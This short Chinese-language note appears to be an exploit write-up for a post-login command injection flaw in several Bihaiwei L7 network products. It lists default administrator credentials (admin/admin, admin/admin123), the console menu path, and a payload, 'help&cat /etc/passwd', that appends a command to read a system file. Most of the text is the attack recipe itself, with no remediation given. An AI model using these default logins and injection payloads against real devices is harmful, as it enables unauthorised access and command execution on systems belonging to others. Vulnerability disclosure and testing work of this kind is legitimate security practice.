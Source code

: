 # 碧海威科技 L7 多款产品 后台命令执行

碧海威 L7多款产品存在 后台命令执行漏洞，攻击者通过账号密码登录后台后，通过命令拼接造成命令注入。

默认密码：admin/admin 或 admin/admin123

后台 - 系统维护 - 命令控制台：

```
help&cat /etc/passwd

```

via:peiqi
